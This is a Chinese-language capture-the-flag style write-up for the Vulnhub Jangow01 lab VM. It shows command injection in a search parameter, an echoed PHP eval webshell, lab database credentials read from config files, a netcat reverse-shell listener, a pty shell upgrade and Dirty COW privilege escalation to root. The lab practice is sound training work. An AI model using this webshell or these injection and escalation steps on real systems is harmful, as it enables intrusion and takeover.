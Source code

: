 # Vulnhub-jangow01-Wp

------

参考链接：https://mi3aka.eu.org/2021/12/01/vulnhub-Jangow_1.0.1/

​					https://blog.csdn.net/weixin_43784056/article/details/123344325

---------

------

1.由于官网上下的vul是virtualbox版本的，使用vm workstations打开会获取不到ip，所以环境是：kali-192.168.159.132，jangow01：192.168.56.118

2.主机探测
    nmap -sP 192.168.56.0/24

3.端口探测

​	nmap -sV -p 0-10000 192.168.56.118

​	查看到服务器开放了21、80端口

4.访问http服务，并用xray扫描网站 $./xray-linux-amd64 webscan --basic-crawler http://192.168.56.118/site/

```
[Vuln: cmd-injection]
Target           "http://192.168.56.118/site/busque.php?buscar="                      
VulnType         "injection/cmd"                                                      
Payload          "\nexpr 954511378 + 970141089\n"                                     
Position         "query"                                                              
ParamKey         "buscar"                                                             
ParamValue       "\nexpr 954511378 + 970141089\n"                                     
feature          "1924652467"                                                         
type             "echo_based"                                                         
```

扫描到命令注入

5.尝试写入webshell

```
echo '<?php eval($_POST[a]);?>' > a.php
```

![image-20220327131314586](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220327131314586.png)

成功插入

6.可以查看上传一句话木马的地址

![image-20220327134438629](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220327134438629.png)

7.使用蚁剑上线，查看到文件管理界面

![image-20220327134731122](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220327134731122.png)

8.发现config文件

```
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

但这个账密不正确

另一个.backup文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

可以成功登录，用户态为普通用户

9.由于是在两个软件中的虚拟机，发现只有kali能ping通vul，但vul没法pingkali，想不到怎么解决

后面的流程参考别人的

10.若成功反弹shell ：nc -lvnp 443

11.执行稳定的shell ：`python3 -c 'import pty;pty.spawn("/bin/bash")'`

12 查看靶机环境 : ubuntu16.04 ：uname -a

13.kali搜索poc ：searchexploit ubuntu 16.04

14使用CVE-2016-5195提权，

$whoami

root

